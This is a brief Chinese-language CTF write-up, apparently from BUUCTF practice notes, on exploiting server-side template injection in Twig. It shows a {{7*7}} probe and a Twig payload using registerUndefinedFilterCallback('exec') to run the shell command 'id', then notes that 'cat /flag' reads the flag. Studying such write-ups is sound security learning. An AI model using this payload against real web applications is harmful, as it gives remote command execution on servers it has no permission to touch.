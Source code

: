 知识点：

1. 模板注入ssit

2. twig模板注入

参考：

https://zhuanlan.zhihu.com/p/28823933



1. 和[BJDCTF2020]The mystery of ip类似，尝试模板注入

payload:

```javascript
{{7*7}}
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/C39677EE66C0403DAB952AA207A37E51clipboard.png)



2. 直接使用https://zhuanlan.zhihu.com/p/28823933里的twig模板注入，payload:

```javascript
 user={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/9B831080F35044BE892AEB1C9374BCBEclipboard.png)

命令执行成功，只需要cat /flag即可得到flag